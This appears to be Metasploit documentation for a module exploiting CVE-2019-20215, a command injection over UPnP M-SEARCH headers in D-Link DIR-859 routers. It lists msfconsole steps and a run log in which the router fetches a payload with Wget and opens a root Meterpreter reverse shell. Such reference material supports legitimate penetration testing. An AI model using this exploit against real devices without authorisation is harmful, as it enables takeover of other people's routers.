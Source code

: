 ## Introduction

This module exploits CVE-2019–20215, an unauthenticated remote injection of operating system commands. The vulnerability was found in the ssdpcgi() function, and the payload can be injected through either the UUID or URN headers of a M-SEARCH UPnP request.

## Vulnerable Application

Get a D-Link DIR-859 router (or [any of the devices/firmware versions mentioned here](https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10147)), or download firmware versions 1.06 or 1.05 and run them on firmadyne or similar emulation frameworks.

## Verification Steps

1. Set up router/emulated device
2. Start `msfconsole`
3. Do: `use exploit/linux/http/dlink_dir859_exec_ssdpcgi`
4. Do: `set RHOSTS <router_ip>`
5. Do: `set LHOST <local_ip>`
6. Do: `set TARGET <URN/UUID>`
7. Do: `run`
8. You should get a session as `root`.

## Scenarios

### D-link DIR-859 Firmware 1.05
```
msf5 exploit(linux/http/dlink_dir859_exec_ssdpcgi) > run 

[*] Started reverse TCP handler on 192.168.0.2:4444 
[*] Using URL: http://0.0.0.0:8080/38YWEX2
[*] Local IP: http://192.168.70.28:8080/38YWEX2
[*] Target Payload URN
[*] Client 192.168.0.1 (Wget) requested /38YWEX2
[*] Sending payload to 192.168.0.1 (Wget)
[*] Command Stager progress - 100.00% done (110/110 bytes)
[*] Meterpreter session 1 opened (192.168.0.2:4444 -> 192.168.0.1:41057) at 2029-12-31 14:15:22 -0300
[*] Server stopped.

meterpreter > 
```
